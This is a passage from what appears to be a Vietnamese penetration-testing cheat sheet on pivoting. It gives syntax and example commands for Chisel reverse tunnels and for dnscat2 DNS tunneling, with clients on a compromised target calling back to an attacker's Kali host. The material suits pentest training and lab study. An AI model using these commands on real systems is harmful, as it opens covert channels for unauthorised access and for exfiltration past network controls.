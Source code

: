 **Ví dụ**:

```bash
./chisel server -p 8888 --reverse
```

* Lắng nghe trên cổng `8080`, hỗ trợ reverse tunneling.

#### 2. Chisel Client (trên máy Target)

**Cú pháp**:

```bash
./chisel client <kali_ip>:<port> R:<remote_port>:<local_ip>:<local_port>
```

{% hint style="info" %}
Chạy client ở chế độ nền: `R:socks > /dev/null 2>&1 &`.
{% endhint %}

**Ví dụ**:

```bash
./chisel client 192.168.1.10:8888 R:9999:127.0.0.1:8000
```

* Tạo reverse tunnel từ cổng `9999` trên Kali đến `127.0.0.1:8000` trên Target.

{% hint style="info" %}
Nếu Target dùng hệ điều hành cũ (thiếu glibc 2.32/2.34), sử dụng Chisel build bằng Go 1.19.
{% endhint %}

***

## DNS Tunneling (với dnscat2)

Sử dụng giao thức DNS để truyền dữ liệu, hữu ích khi các cổng khác bị chặn.

#### 1. dnscat2 Server (trên máy Kali)

**Cú pháp**:

```bash
sudo ruby dnscat2.rb --dns host=0.0.0.0,port=53 --secret=<secret> --no-cache
```

**Ví dụ**:

```bash
sudo ruby dnscat2.rb --dns host=0.0.0.0,port=53 --secret=mysecret --no-cache
```

* Lắng nghe trên cổng `53`, sử dụng `mysecret` để mã hóa.

#### 2. dnscat2 Client (trên máy Target)

**Cú pháp**:

```bash
./dnscat --dns server=<kali_ip>,port=53 --secret=<secret>
```
